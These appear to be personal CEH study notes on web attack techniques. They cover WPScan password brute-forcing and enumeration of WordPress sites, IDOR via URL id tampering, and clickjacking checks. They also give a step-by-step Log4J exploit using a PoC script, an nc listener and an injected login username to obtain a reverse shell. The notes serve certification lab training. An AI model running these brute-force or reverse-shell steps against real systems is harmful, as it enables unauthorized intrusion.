     2. `wpscan --url test.com --usernames paul --passwords password.txt`
        
        ^This will yeild the results, Note that the url should be standard NOT test.com/wp-login
        
- Enumerate Word press site:
    - `wpscan --url {} --enumerate`
- Parameter tampering = IDOR vulnerability (just change the url id value)
- Log4J vulnerability steps:
    1. First extract the file `tar -xf jdk-8u202-linux-x64.tar.gz`
    2. move the file `mv jdk1.8.0_202 /usr/bin/`
    3. edit the [poc.py](http://poc.py) file via `pluma poc.py`
    4. in line **62**, replace **jdk1.8.0_20/bin/javac** with **/usr/bin/jdk1.8.0_202/bin/javac**
    5. Set up nc `nc -lvnp 9001`
    6. Run  `python3 poc.py --userip 10.10.1.13 --webport 8000 --lport 9001`
        
        ![Untitled](CEH%20Notes%20(Personal)%205fd56f13be54493ca0bc11db3f428466/Untitled%206.png)
        
    7. Input that as the Username in the website and press “login”
    8. We should now have a shell
- Anti-clickjacking:
    - `nikto -h {}` ← if “The anti-clickjacking X-Frame-Options header is not present” then that means the site is vulnerable to clickjacking
    - Or use `ClickJackPro`
    - Or Use `zaproxy` to run an automated scan
        